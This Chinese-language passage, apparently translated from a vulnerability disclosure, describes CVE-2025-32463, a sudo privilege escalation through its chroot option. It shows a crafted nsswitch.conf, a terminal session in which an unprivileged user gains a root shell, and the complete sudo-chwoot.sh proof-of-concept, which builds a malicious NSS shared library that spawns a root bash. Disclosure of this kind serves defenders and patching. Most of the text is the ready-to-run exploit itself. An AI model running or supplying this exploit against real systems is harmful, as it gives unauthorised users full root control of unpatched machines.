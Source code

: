 要利用该漏洞，我们在 chroot 环境中放置了以下 /etc/nsswitch.conf   
文件。其中 /woot1337   
这个 NSS "源" 会被转换为 libnss  
/woot1337.so.2，这是一个我们可控路径下的共享对象（shared object）。  
```
passwd: /woot1337
```  
  
在 Ubuntu 24.04.2 LTS 服务器上执行 PoC（Proof of Concept），使用未定义 Sudo 规则的低权限用户，成功在 chroot 环境外获取 root shell。  
```
lowpriv@prod:~/CVE-2025-32463$ id
uid=1001(lowpriv) gid=1001(lowpriv) groups=1001(lowpriv)
lowpriv@prod:~/CVE-2025-32463$ sudo -l
[sudo] password for lowpriv:
Sorry, user lowpriv may not run sudo on prod.
lowpriv@prod:~/CVE-2025-32463$ ./sudo-chwoot.sh
woot!
root@prod:/# id
uid=0(root) gid=0(root) groups=0(root),1001(lowpriv)
```  
  
完整的 sudo-chwoot.sh   
漏洞利用代码（PoC, Proof of Concept）。  
```
#!/bin/bash
# sudo-chwoot.sh
# CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
#                  @ Stratascale Cyber Research Unit (CRU)
STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
cd ${STAGE?} || exit 1

cat > woot1337.c<<EOF
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void woot(void) {
  setreuid(0,0);
  setregid(0,0);
  chdir("/");
  execl("/bin/bash", "/bin/bash", NULL);
}
EOF

mkdir -p woot/etc libnss_
echo "passwd: /woot1337" > woot/etc/nsswitch.conf
cp /etc/group woot/etc
gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c

echo "woot!"
sudo -R woot woot
rm -rf ${STAGE?}
```  
### Chwoot 演示  
  